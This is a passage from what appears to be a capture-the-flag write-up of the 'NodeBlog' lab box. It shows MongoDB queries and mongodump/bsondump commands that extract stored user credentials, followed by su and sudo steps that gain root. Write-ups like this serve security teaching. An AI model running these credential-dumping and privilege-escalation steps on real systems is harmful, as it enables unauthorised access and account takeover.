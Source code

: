```bash

> use blog
> show collections
> db.users.find()
# :)      Credentials!

su root                     # :(
sudo -l
# --> (ALL : ALL) ALL

sudo whoami                 # root
sudo su
```

<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_49.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_50.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_51.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_52.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_53.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>

I can also use the `mongodump` tool to dump the information from the **MongoDB** databases and with `bsondump` see the content of the different collections. This way I also get the credentials and I managed to rooted the box.

```bash
cd /dev/shm
mkdir dump
cd !$

mongodump

cd blog
bsondump user.bson
```

<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_54.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nodeblog_writeup/NodeBlog_55.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

